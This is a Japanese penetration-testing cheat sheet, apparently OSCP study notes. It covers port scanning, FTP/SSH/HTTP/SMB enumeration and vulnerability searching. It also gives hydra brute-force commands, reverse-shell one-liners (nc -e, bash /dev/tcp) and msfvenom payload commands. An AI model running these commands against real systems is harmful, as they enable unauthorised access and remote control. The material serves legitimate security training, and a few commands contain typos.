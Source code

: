 # ***<span style="color:blue;">列挙</span>***
- オープンポートの発見
- 正常系の確認   
-- netcatやクライアントソフトを使って接続する
- サービスに応じて更に列挙を行い情報を収集する

# ***<span style="color:blue;">ポートスキャン(nmap)</span>***
- 初回のポートスキャン   
```
$ nmap -Pn -n -vvv -sV -oN nmap_initial <IP>
```   
- 開いているポートに対して詳細なスキャン   
```
$ nmap -Pn -sC -sV -p <open port> -oN nmap_base_script <IP>
```   
- フルポートスキャン   
```
$nmap -Pn -p- -oN nmap_allport <IP>
```   
- nmapのスクリプトを使用する(/usr/share/nmap/scripts)   
```
$ nmap -Pn -p<ports> --script=<script name> <IP>
```   

# ***<span style="color:blue;">正常系の確認   </span>***
- netcatを用いた確認   
```
$ nc -nv <IP> <port>
```   
- http/httpsの場合はブラウザを用いて接続   
- ftpではftpコマンドを用いて接続する   
```
$ ftp <IP>
```   
- 未知のサービスを発見した場合はクライアントソフトを探す   
# ***<span style="color:blue;">ftpの列挙   </span>***
- バナーから情報を得る（バージョンやサーバなど   
- anonymousログインが出来ないか検証する
- ディレクトリを確認   
```
$ dir
```   
- ファイルのダウンロードやアップロードは出来るかどうか   
```
$ get/put<file>
```   
- ファイルを扱うモードについて注意   
```
$ asc
$ bin
```   
# ***<span style="color:blue;">sshの列挙</span>***
- バナーから情報を得る（バージョンやサーバなど）  
- 初期段階で行えることは少ない
- ユーザーがわかった場合はブルートフォース攻撃が可能   
```
hydra -L user.txt -P pass.txt <IP> -t 4 ssh -V
```   
# ***<span style="color:blue;">http/httpsの列挙</span>***
- Webサーバのバージョンの確認
- ソースコードを確認する
- gobuster等のツールでディレクトリやファイルを列挙   
```
$ gobuster dir -u <url> -w ,wordlists> -t <threads> -x <ext> -o <outfile>
```
- よく使うワードリスト   
/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt   
/usr/share/wordlists/dirb/common.txt   
/usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt   

# ***<span style="color:blue;">smbの列挙</span>***
- nmapのスクリプトを用いた列挙   
```
$ nmap -p445 --script=smb-enum-shares.nse,smb-enum-users.nse <IP>   
$ nmap -p445 -script=smb-vuln* <IP>
```
- 共有フォルダの列挙   
```
$ smbmap -H <IP>   
$ smbmap -u guest -H <IP>
```
# ***<span style="color:blue;">その他の列挙</span>***
- hacktricksを参照する
- -ポートやサービスごとに列挙方法がまとまっている
- nmapやncで接続した際に返ってくる文字列などで検索
- tcpで何も見つからない場合にはudpもスキャンする   
```
$ nmap -sU <IP>
```   
- 僅かな情報も取りこぼさないようにしてとにかく手を動かす
# ***<span style="color:blue;">脆弱性の自動列挙</span>***
- nmapのscript   
-- あまり期待しない
- Webサーバやアプリの脆弱性に対してnikto   
```
$ nikto <IP>
```
- NessusやOpenVASなどの脆弱性スキャンツール   
-- OSCPでは使用不可
# ***<span style="color:blue;">脆弱性の手動列挙</span>***
- アプリ名やそのバージョンで検索   
-- OSSの場合はgithubのリポジトリが見つかることも   
```
$ searchsploit <app>
```
- アプリやサービスのデフォルトクレデンシャルを探す   
-- 管理者が変更してない場合は認証を突破できる
- 認証に対するブルートフォース攻撃   
-- hydra,crackmapexec,burp suiteなどを用いる
# ***<span style="color:blue;">リバースシェルの取得</span>***
- kali側でシャルを待ち受ける   
```
$ nc -lvnp <port>
```
- ターゲット上からkaliに対して接続する   
```
nc -nv <IP> <port> -e /bin/sh   
$bash -i >& /dev/tcp/<IP>/<port> 0>&1
```
- msfvenomで実行ファイルを作成して実行させる   
```
$ msfvenom -p windows/x64/shell\reverse_tcp LHOST=<IP> LPORT=<port> -f -o shell.exe   
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<port> -f elf -o shell.elf   
```
# ***<span style="color:blue;">シェルのアップグレード</span>***
- リバースシェルを普段のシェルと同じように使うために行う   
```
$ python -c 'import pty;pty.spawn("/bin/bash")'   
ctrl-z   
$stty raw -echo;fg   
Enterを２回押す   
$ expot TERM=linux   
$ stty rows <num> cols <num> 
```
- Tab補完や矢印キーが使えるようになる
- ctrl-cを使ってもシェルが死なない